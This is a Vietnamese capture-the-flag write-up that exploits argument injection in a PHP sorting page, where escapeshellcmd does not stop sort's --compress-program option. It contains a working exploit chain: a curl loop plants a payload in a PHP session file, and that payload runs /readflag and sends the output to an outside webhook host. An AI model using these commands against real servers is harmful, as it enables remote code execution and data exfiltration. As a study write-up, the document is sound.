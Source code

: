 # Sort It Out

![image-20230525191905226](C:/Users/HOME/AppData/Roaming/Typora/typora-user-images/image-20230525191905226.png)

Đây là một chương trình trả về thời gian thực hiện của các thuật toán sắp xếp đối với 1 file có sẵn trên hệ thống

![image-20230525191948904](./assets/image-20230525191948904.png)

Challenge cho mình source code

```
.
└── dist
    ├── Dockerfile
    ├── docker-compose.yml
    ├── flag
    ├── readflag.c
    └── src
        ├── alice_in_wonderland.txt
        ├── index.php
        ├── quotes.txt
        └── words_shuffled.txt

2 directories, 8 files
```

Theo như Dockerfile thì `readflag.c` tạo ra một file thực thi `/readflag` để đọc flag, mục tiêu của mình là thực thi được file này

```dockerfile
FROM php:8.1-apache

RUN sed -i 's/80/8080/g' /etc/apache2/ports.conf /etc/apache2/sites-available/*.conf

RUN apt-get update && apt-get install -y gcc

COPY src/ /var/www/html/
COPY flag /flag
COPY readflag.c /readflag.c

RUN gcc -o /readflag /readflag.c
RUN rm /readflag.c

RUN chown root:root /flag
RUN chmod 400 /flag
RUN chown root:root /readflag
RUN chmod 4755 /readflag

RUN chown -R root:root /var/www/html
RUN chmod -R 555 /var/www/html
```

Trong file `index.php` có các hàm sắp xếp, sử dụng POST param `filename` là một đường dẫn đến file tồn tại trên hệ thống, sử dụng các hàm sắp xếp và trả về thời gian hoàn thành của các hàm này

```php
<!DOCTYPE html>
    // ...
    <?php 
        function bubbleSort($arr) {
    		// ...
		}
		function selectionSort($arr) {
        	// ...
        }
		function insertionSort($arr) {
            // ...
        }
		// ...
		// ...
		if (isset($_POST['filename'])) {
            $filename = $_POST['filename'];
            $contents = file_get_contents($filename);
            $arr = explode("\n", $contents);

            // god i wish there was an easier way to do this
            $arr_copy = $arr;
            $start = microtime(true);
            sort($arr_copy);
            $end = microtime(true);
            $sort_time = $end - $start;
            // ...
			// ...
			$arr_copy = $arr;
            $start = microtime(true);
            $arr_copy = heapSort($arr_copy);
            $end = microtime(true);
            $heap_sort_time = $end - $start;
            
            $start = microtime(true);
            exec("sort " . escapeshellcmd($filename));
            $end = microtime(true);
            $sort_utility_time = $end - $start;

            echo "<table>";
            echo "<tr><th>Algorithm</th><th>Time</th></tr>";
            echo "<tr><td>PHP sort</td><td>$sort_time</td></tr>";
            echo "<tr><td>Bubble sort</td><td>$bubble_sort_time</td></tr>";
            echo "<tr><td>Selection sort</td><td>$selection_sort_time</td></tr>";
            echo "<tr><td>Insertion sort</td><td>$insertion_sort_time</td></tr>";
            echo "<tr><td>Merge sort</td><td>$merge_sort_time</td></tr>";
            echo "<tr><td>Quick sort</td><td>$quick_sort_time</td></tr>";
            echo "<tr><td>Heap sort</td><td>$heap_sort_time</td></tr>";
            echo "<tr><td>GNU sort</td><td>$sort_utility_time</td></tr>";
            echo "</table>";
        }
	?>
```

Trong đó có một đoạn code sử dụng `exec` thực thi câu lệnh sort với `escapeshellcmd($filename)`. Trong PHP, khi mình sử dụng `escapeshellcmd(string)` thì chương trình sẽ thêm kí tự backslash `\` vào đằng trước các kí tự đặc biệt có thể gây ra lỗi command injection như `&#;|*?~<>^()[]{}$\, \x0A and \xFF. ' and "` [PHP: escapeshellcmd - Manual](https://www.php.net/manual/en/function.escapeshellcmd.php)

```php
            $start = microtime(true);
            exec("sort " . escapeshellcmd($filename));
            $end = microtime(true);
            $sort_utility_time = $end - $start;
```

Search thêm các cách bypass/exploit đối với trường hợp này thì mình tìm ra được cách đó là `Argument Injection`

[exploits/exploit-bypass-php-escapeshellarg-escapeshellcmd.md at master · kacperszurek/exploits · GitHub](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

Cách này mình sẽ chèn các đối số vào câu lệnh, như hình ảnh dưới đây lệnh tar đã được chèn vào một đối số `--use-compress-program='touch /tmp/exploit'`, khi thực thi câu lệnh này, chương trình sẽ thực thi câu lệnh trong này

![image-20230525214841737](./assets/image-20230525214841737.png)

Cũng tương tự với lệnh `sort`, lệnh sort có đối số `--compress-program` sử dụng để chỉ định một chương trình hợp lệ trên hệ thống để xử lý dữ liệu

Sử dụng [PHP_SESSION_UPLOAD_PROGRESS](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress), PHP_SESSION_UPLOAD_PROGRESS là một biến môi trường được sử dụng trong quá trình tải lên tệp tin bằng tính năng upload file của PHP.

UPLOAD PROGRESS 

```
while true; do curl http://localhost:10556/ -H 'Cookie: PHPSESSID=longkd719' --form-string 'PHP_SESSION_UPLOAD_PROGRESS=;curl https://webhook.site/06a35126-1c92-4c57-a0ce-cec9b4e08946?`/readflag`;#' -F 'file=@/dev/urandom'; done
```

Khi đó trong file `/tmp/sess_longkd719` trên hệ thống

```
# cat /tmp/sess_longkd719
upload_progress_;curl https://webhook.site/06a35126-1c92-4c57-a0ce-cec9b4e08946?`/readflag`;#|a:5:{s:10:"start_time";i:1685029415;s:14:"content_length";i:0;s:15:"bytes_processed";i:5311;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:7:"urandom";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1685029415;s:15:"bytes_processed";i:5311;}}}#
```

Sau đó sử dụng đối số `--compress-program` để thực thi file này

```
filename=--compress-program=/bin/bash -o /tmp/sess_longkd719 -m /tmp/sess_longkd719
```

Test trên local thành công

```
# sort --compress-program=/bin/bash -o /tmp/sess_longkd719 -m /tmp/sess_longkd719
/bin/bash: line 1: upload_progress_: command not found
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
/bin/bash: -d: invalid option
Usage:  /bin/bash [GNU long option] [option] ...
        /bin/bash [GNU long option] [option] script-file ...
```

Kết hợp cả 2 cái trên và mình thu được flag

![image-20230525224712084](./assets/image-20230525224712084.png)

`Flag: grey{It_w4s_No7_a_gO0D_DAy}`